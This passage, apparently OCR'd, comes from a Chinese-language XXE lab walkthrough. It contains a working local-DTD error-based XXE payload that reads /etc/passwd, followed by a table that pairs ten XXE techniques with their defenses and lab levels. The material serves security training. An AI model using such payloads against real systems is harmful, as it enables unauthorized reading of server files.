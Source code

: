 当外部DTD被禁用，利用服务器本地DTD文件触发错误消息泄露数据。

**解题步骤**

1. 查找服务器已知DTD文件（如Linux下的 `/usr/share/yelp/dtd/docbookx.dtd`）。

2. 覆盖其内部实体：

   ```
   <!DOCTYPE foo [
     <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
     <!ENTITY % file SYSTEM "file:///etc/passwd">
     <!ENTITY % ISOamso '
       <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
       %eval;
       %error;
     '>
     %local_dtd;
   ]>
   ```

3. 从错误消息中提取文件内容。

**关键点**

- **本地DTD利用**：通过覆盖预定义实体触发错误回显。
- **适用场景**：无回显且禁用外部DTD时。

### 总结：

| **攻击技术**            | **适用场景**                   | **防御措施**                           | **对应关卡**           |
| :---------------------- | :----------------------------- | :------------------------------------- | :--------------------- |
| **基础文件读取XXE**     | 直接回显文件内容               | 禁用外部实体解析                       | 关卡1-3                |
| **外部DTD盲注XXE**      | 无回显场景，需外带数据         | 禁用外部DTD加载                        | 关卡4                  |
| **SVG内联XXE**          | 文件上传功能（SVG/XML文件）    | 过滤SVG内联DTD或禁用实体               | 关卡5                  |
| **Content-Type切换XXE** | 多格式解析接口（如JSON转XML）  | 严格校验Content-Type与数据一致性       | 关卡6                  |
| **协议黑名单绕过**      | 过滤`file://`等协议            | 禁用所有危险协议（含`php://`等包装器） | 关卡7                  |
| **XInclude攻击**        | XML片段注入（无法控制DOCTYPE） | 禁用XInclude或过滤`xi:include`标签     | 关卡8                  |
| **XXE结合SSRF**         | 内网服务探测或攻击             | 限制服务器出站网络请求                 | 关卡9                  |
| **DNS外带数据**         | 无HTTP出站，需隐蔽泄露         | 监控异常DNS查询                        | 关卡10                 |
| **本地DTD利用**         | 禁用外部DTD且无回显            | 删除/限制敏感本地DTD文件权限           | 关卡11                 |
| **嵌套实体绕过**        | 复杂过滤场景（如WAF）          | 深度检查实体嵌套与编码                 | 扩展场景（非具体关卡） |

## 二、bWAPP

### 1. 基础XXE（Basic）
